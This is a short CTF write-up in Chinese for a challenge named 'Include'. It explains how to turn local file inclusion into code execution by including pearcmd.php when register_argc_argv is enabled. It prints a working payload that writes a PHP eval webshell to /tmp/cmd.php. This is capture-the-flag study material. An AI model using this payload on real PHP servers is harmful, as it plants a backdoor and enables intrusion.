## Include 🍐

![image-20231210144712460](images/39.png)

提到的是lfi rce，看到filter和data被办了，多半就是打pearcmd.php的docker裸文件包含了，还提示看phpinfo

在register_argc_argv为on的环境下，通过包含pearcmd.php和传参可实现rce

![image-20231210144853370](images/40.png)

```
?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST[0]);?>+/tmp/cmd.php
```

![image-20231210144928411](images/41.png)
